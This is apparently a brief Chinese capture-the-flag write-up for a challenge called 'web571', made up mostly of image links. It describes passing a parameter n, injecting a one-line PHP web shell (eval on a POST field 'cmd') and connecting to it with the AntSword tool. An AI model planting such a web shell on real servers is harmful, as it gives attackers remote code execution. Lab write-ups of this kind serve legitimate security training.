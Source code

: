 # web571
![](vx_images/420437554530852.png)
![](vx_images/107415138143311.png)
![](vx_images/46875269238601.png)
传递参数n
![](vx_images/386664621977109.png)
能够在页面显示,插入一句话代码
<?php eval($_POST['cmd']);?>
蚁剑连接